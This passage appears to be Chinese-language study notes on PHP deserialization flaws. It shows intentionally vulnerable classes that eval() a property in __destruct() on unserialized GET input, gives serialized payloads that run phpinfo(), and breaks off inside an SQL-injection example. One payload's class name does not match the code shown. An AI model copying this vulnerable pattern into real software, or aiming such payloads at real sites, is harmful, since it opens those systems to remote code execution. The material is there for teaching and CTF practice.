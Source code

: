 

先搞清楚序列化之后各个字段的意义:

![](http://image.xpshuai.cn/img/image-20220119091308709.png)



![](http://image.xpshuai.cn/img/image-20220119091604297.png)



例如：

```php
<?php
class Example {
    var $var = '';
    function __destruct() {
        eval($this->var);
    }
}
unserialize($_GET['a']);
?>　
```

接下来构造序列化数据：`a=O:4:"test":1:{s:1:"b";s:10:"phpinfo();";}`

成功显示了phpinfo页面：在反序列化该数据时，自动触发了_destruct()函数,执行 eval(phpinfo()):





### CTF类似题目

https://cgctf.nuptsast.com/challenges#Web
https://bbs.ichunqiu.com/forum.php?mod=viewthread&tid=11116&highlight=writeup



```php
<?php
//test
/*
$a='xiaodi';
echo $a."<hr>";
echo serialize($a)."<hr>";
echo unserialize('s:6:"xiaodi";');
*/

/*
//代码执行

class xiaodi{
	var $xd='';
	function __destruct(){
		eval($this->xd);
	}
}
unserialize($_GET['a']);
*/
//O:1:"F":1:{s:3:"var";s:10:"phpinfo();";}
//O:6:"xiaodi":1:{s:2:"xd";s:10:"phpinfo();";}


//sql注入
/*
class sql{
	var $var='';
	function __destruct(){
		echo 'select * from admin where username='.($this->var);
```